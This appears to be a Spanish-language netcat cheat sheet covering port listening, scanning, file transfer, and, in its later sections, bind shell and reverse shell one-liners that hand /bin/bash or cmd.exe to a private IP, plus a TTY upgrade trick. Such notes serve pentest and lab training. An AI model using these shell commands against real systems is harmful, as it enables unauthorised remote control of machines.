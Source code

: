 #Conexion a puertos
	Servidor
	nc -lvp 1000
	
	Cliente
	nc 127.0.0.1 1000

#Conectar con DNS de google 
	nc -v -u 8.8.8.8 53

#Conectar a una Web
	nc -v plaintext.do 80
	GET / HTTP/1.1
	
#Escaneo de puertos 
	nc -z -vv plaintext.do 78-81
	nc -z -vv 185.199.109.153 78-81
	nc -z -vvn 185.199.109.153 78-81 | evitar inverse host lookup
	
#Transferencia de archivos
	Para Recibir 
	nc -lvnp 1000 > file.txt
	
	Para Enviar
	nc ipreceptor 1000 < file.txt 
	
	Usar md5sum para confirmar que el archivo transferido es identico al recibido
	md5sum file.txt 
	
#Transferencia de grupo de archivos y directorios 
	Para recibir 
	nc -lvnp 1000 | tar -xvf -
	
	Para enviar
	tar -cvf - directorio/ | nc 127.0.0.1 1000

#BindShell
	Servidor
	nc -lvnp 2000 -e /bin/bash (linux)
	nc -lvnp 2000 -e cmd.exe (windows)
	
	Cliente 
	nc 192.168.249.128 2000
	
#Reverse shell
	Servidor 
	nc 192.168.249.128 2000 -e /bin/bash (linux)
	nc 192.168.249.128 2000 -e cmd.exe (windows)
	
	Cliente 
	nc -lvnp 2000
	
	
#python tty 
	python -c "import tty;tty.spawn('/bin/bash')"
	CTRL + Z
	stty raw -echo
	fg
	ENTER

#rlwrap 
rlwrap - https://twitter.com/4lex/status/1099803151832633350

Instalar rlwrap - apt-get install rlwrap
	Permite utilizar:
	Teclas de subir y bajar, para el historial de comandos.
	ctrl + L - (limpiar pantalla) 
	Tab auto completar (linux)
	
	
	rlwrap -c nc -lvnp 2000
	rlwrap -c nc 192.168.249.1 4444 -e /bin/bash 